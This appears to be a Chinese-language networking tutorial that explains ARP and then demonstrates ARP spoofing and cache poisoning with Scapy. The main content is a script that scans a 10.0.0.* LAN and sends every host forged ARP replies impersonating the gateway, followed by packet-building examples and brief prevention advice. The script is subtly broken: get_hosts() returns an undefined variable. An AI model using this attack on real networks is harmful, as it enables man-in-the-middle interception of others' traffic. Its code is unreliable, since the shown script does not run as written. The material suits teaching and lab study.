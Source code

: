 ## Address Resolution Protocol

[1]:https://en.wikipedia.org/wiki/Address_Resolution_Protocol
[2]:https://en.wikipedia.org/wiki/Neighbor_Discovery_Protocol
[3]:https://en.wikipedia.org/wiki/Bootstrap_Protocol
[4]:https://en.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol
[5]:http://www.secdev.org/projects/scapy/
[6]:https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure

[Address Resolution Protocol, ARP][1]
地址解析协议的基本功能是通过目标设备的 IP 地址查询它的 MAC 地址,
它是 IPv4 网络层的必要协议 (在 IPv6 中被 [Neighbor Discovery Protocol, NDP][2] 协议取代).

在以太网中, 主机之间使用 MAC 地址进行通讯. 假设有 `host_a` 要与 `host_b` 通信,
它将通过交换机对整个网络进行广播, 然后使用 ARP 找到 `host_b` 的 MAC 地址.
尽管整个广播域都会受到来自于 `host_a` 发送的信息,
但只有被请求的 `host_b` 才会响应 ARP 请求并将自己的 MAC 地址发送给 `host_a`.

`host_a` ARP request:

```
host_a's ip address            :    192.168.1.1
host_a's mac address           :    00:11:22:33:44:55
target (b) ip address          :    192.168.1.2
target (broadcast) mac address :    ff:ff:ff:ff:ff:ff
```

此时表示 `host_a` 向网络内所有主机询问 "192.168.1.2" 是谁的 IP 地址?
不持有该 IP 地址的主机对此不会做出响应,
只有 `host_b` 收到该请求后做出回应表示自己持有该地址并发送自己的 MAC 地址给 `host_a`.

`host_b` ARP response:

```
host_b's ip address             :    192.168.1.2
host_b's mac address            :    aa:bb:cc:dd:ee:ff
target (a) ip address           :    192.168.1.1
target (a) mac address          :    00:11:22:33:44:55
```

此外, 与 ARP 原理相似, 还有 Reverse Address Resolution Protocol, RARP 反向地址解析协议.
它与 ARP 协议使用相同的报头结构, 作用于 ARP 相反, 将 MAC 地址转换为 IP 地址.
由于诸多缺陷, 已经逐渐被
[Bootstrap Protocol, BOOTP][3] 或 [Dynamic Host Configuration Protocol, DHCP][4] 所取代.

<br>

## ARP Spoofing / ARP cache poisoning

所谓 ARP 欺骗属于内网中间人攻击, 基于 ARP 协议的特点, 会使得攻击对整个网络生效,
从而转移原本发往目标主机的数据包.

用来实施 ARP spoofing 的工具很多:
- ARPspoof
- Cain&abel
- Dsniff
- Ettercap
- etc.

在熟悉了 ARP 协议的工作原理和报文结构的基础上, 实验选择使用 Scpay 来模拟攻击.

[Scapy][5] 是一个由 Python 编写的交互式数据包处理程序,
可用来发送, 嗅探, 解析和伪造网络数据包, 常常用于网络攻击和测试中.
可以从其[官方网站][5]下载到最新版本并使用 `sudo python setup.py install` 安装.

_以下实验环境使用操作系统为 Ubuntu 14.04_

Scapy 自带一个 Python shell, 因为部分功能需要 root 权限,
所以如果需要使用 shell 时用 `sudo scapy` 打开.

```py
# 使用 arping() 函数嗅探局域网内指定地址范围内所有主机
#
# arping("192.168.*.1-10/24")
#
# 返回结果如下, 会返回主机的 MAC 地址和 IP 地址.
# finished to send 65536 packets.
# Received 767 packets, got 1 answers, remaining 65535 packets
#   aa:bb:cc:dd:ee:ff    192.168.1.1

# 基于 arping() 首先我们就可以实现函数 get_hosts() 探测局域网内主机并返回地址
##########################

# file simple_arp.py

import time
import sys
import re

from scapy.all import arping, ARP, send


STDOUT = sys.stdout
IPADDR = '10.0.0.*'
GATEWAY_IP = '10.0.0.1'
GATEWAY_MAC = 'aa:bb:cc:dd:ee:ff'


def arp_hack(mac, ip):
    p = ARP(op=2, hwsrc=GATEWAY_MAC, psrc=GATEWAY_IP)
    p.hwdst = mac
    p.pdst = ip
    send(p)


def get_hosts():
    address = {}

    sys.stdout = open('host.info', 'w')
    arping(IPADDR)
    sys.stdout = STDOUT

    with open('host.info', 'r') as hosts:
        info = hosts.readlines()

    for host in info:
        tmp = re.split(r'\s+', host)
        if len(tmp) != 4:
            continue
        address[tmp[1]] = tmp[2]

    return mac_ip

if __name__ == '__main__':
    for mac_addr, ip_addr in get_hosts().items():
        arp_hack(mac=mac_addr, ip=ip_addr)
        time.sleep(1)
```

使用 `ls()` 函数可以显示所有支持的数据包对象, 然后指定任意一个具体包作为参数则显示该包具体结构.
以 `ARP` 包为例, 每个字段内容对应为 [ARP 协议封包结构][6] 的相应字段:

```
in Python shell

>>>ls(ARP)

hwtype     : XShortField          = (1)
ptype      : XShortEnumField      = (2048)
hwlen      : ByteField            = (6)
plen       : ByteField            = (4)
op         : ShortEnumField       = (1)
hwsrc      : ARPSourceMACField    = (None)
psrc       : SourceIPField        = (None)
hwdst      : MACField             = ('00:00:00:00:00:00')
pdst       : IPField              = ('0.0.0.0')
```

- `hwtype` : 对应 "HTYPE", 网络类型, `1` 为 Ethernet
- `ptype` : 对应 "PTYPE", 解析协议类型, `0x0800` 为 IPv4, `0x0806` 为 ARP
- `hwlen` : 对应 "HLEN", MAC 地址长度 6 字节
- `plen` : 对应 "PLEN", IP 地址长度 4 字节
- `op` : 对应 "Operation", ARP 数据包类型, `1` 为 request, `2` 为 reply
- `hwsrc` : 对应 "SHA", sender 的 MAC 地址
- `psrc` : 对应 "SPA", sender 的 IP 地址
- `hwdst` : 对应 "THA", target 的 MAC 地址
- `pdst` : 对应 "TPA", target 的 IP 地址

于是我们也可以选择手动定义一个完整的 ARP 包:

```py
eth = Ether(src='00:11:22:33:44:55', type=0x0806)
arp = ARP(hwtype=1, ptype=0x0800, op=1,
          hwsrc='00:11:22:33:44:55', psrc='10.0.0.1', pdst='10.0.0.7')

# 关于 scapy 中的 "/" 操作符详细参考文档说明, 这里表示一个底层 Eth 上层 ARP 的操作
pkg = eth/arp
# 将 pkg 广播到局域网
recv = srp1(pkg)

# 可以直接输出结果, 或绘制 PDF 图描述封包结构.
recv.show()

pkg.pdfdump('arp_req.pdf')
recv.pdfdump('arp_rep.pdf')
```

#### 如何预防?

ARP 欺骗虽然危险, 但是比较容易识别.
- 最稳妥的方法是将局域网内所有主机的 ARP 缓存表设为静态 (仅适用于小型网络);
- 或编写脚本不断对比网络中各主机的 APR 缓存表的变化来侦测不正常的变动;
- 使用具备相关安全功能的网络设备.
